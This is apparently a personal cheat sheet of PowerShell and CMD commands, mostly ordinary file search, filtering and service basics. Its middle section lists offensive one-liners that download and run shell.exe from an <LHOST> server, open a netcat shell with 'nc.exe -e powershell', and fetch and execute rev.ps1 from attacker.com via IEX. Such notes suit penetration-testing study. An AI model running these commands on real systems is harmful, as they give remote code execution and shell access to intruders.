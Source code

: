 # PS cheats
- put paths in quotes, because windows is bad !
- get-Service NAME
- Measure-Object										; for counting outputs
- remember you can pipe things!
- verb-noun
- outputs are objects; therefore get-member
- Objects have methods and Properties
- get-content 															; will usually type/cat/ do something
- acl, get-acl															; shows permisions in current dir, such as owner ; ACCESS CONTROL LISTS
- CMDLET | get-member -MemberType Properties/Method 					; gives information on available props/methods
- CMDLET | where-object -property PROP_NAME -operator OPERATOR_PARM		;	 filter output by my specification (always use match operator)
- CMDLET | select-object -property prop1, prop2, ...					;	 limit output fields creates a new object
- dir env:				 												; display environment vars |  format-list Property-Name

	
> find command
```
get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *SEARCH_TERM*
https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/ 
```

> grep equivalent; this will search entire filesystem
```
Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
```


> help/search availble actions
```
get-command *SEARCH_TERM*
get-help	CMDLET
```

> filtering outputs
```sh
Verb-Noun | Where-Object -Property PropertyName -operator Value
Verb-Noun | Where-Object {$_.PropertyName -operator Value}			; `$_` is an operator, iterates through every object passed (SYNTAX ERR?)
Verb-Noun | Sort-Object
```


> pull a shell & execute; possibly dont need double quotes?
```sh
CMD.exe>"powershell.exe Invoke-WebRequest -Uri http://<LHOST>:8000/shell.exe -OutFile ./shell.exe && .\shell.exe"
```

> spawn a process
```
Start-Process PROCESS_NAME 'Start-Process cmd -Verb RunAs' -Credential USERNAME
```

> netcat 
```sh
nc.exe -e powershell  		; works just like other shells
```

	
> invoke expression
```sh
IEX(New-Object WebClient).downloadString("http://attacker.com/rev.ps1")
```




# CMD cheats
- type 		== cat
- findstr 	== grep
- dir /a    == ls -a
- ren 										; alias for rename
- rename 									; path needed for source, NOT needed for destination
- copy 										; source destination
- del
- dir
- net stop/start SERVICE_NAME 				; other functions too, see /?
- whoami /all 								; gives some security info, suchas permissions